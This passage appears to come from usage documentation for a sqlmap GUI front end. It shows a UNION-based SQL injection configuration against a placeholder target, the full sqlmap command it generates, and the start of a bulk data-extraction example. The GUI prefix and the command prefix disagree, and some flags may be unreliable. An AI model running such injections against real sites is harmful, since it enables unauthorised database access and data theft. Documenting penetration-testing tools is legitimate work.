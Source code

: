 ## 🔧 Custom Injection Payloads

### Example 6: Complex UNION-Based Injection
**Scenario:** Craft custom UNION injection for specific database schema

**Target Information:**
- URL: `http://target.com/products.php?id=1`
- Known Schema: 8 columns, mixed data types

**GUI Configuration:**
```
Target Tab:
├── URL: http://target.com/products.php?id=1
└── Method: GET

Injection Tab:
├── Testable Parameters: id
├── DBMS: MySQL
├── Union Columns: 8
├── Union Character: NULL
├── Prefix: ') UNION SELECT
├── Suffix: -- -
└── No Cast: ✓

Detection Tab:
├── Level: 3
├── Risk: 2
├── Techniques: U (UNION only)
└── Union Test All: ✓

Techniques Tab:
├── Union Heuristic: ✓
├── Union From Table: information_schema.tables
└── Union Character: NULL
```

**Generated Command:**
```bash
sqlmap -u "http://target.com/products.php?id=1" -p id --dbms=mysql --union-cols=8 --union-char=NULL --prefix=") UNION SELECT " --suffix=" -- -" --no-cast --level=3 --risk=2 --technique=U --union-test-all --union-heuristic --union-from=information_schema.tables
```

## 📊 Advanced Data Extraction

### Example 7: Large Dataset Handling
**Scenario:** Extract large amounts of data efficiently

**Target Information:**
- URL: `http://target.com/users.php?id=1`
- Table: `user_logs` (10 million records)
- Goal: Extract last 100,000 records
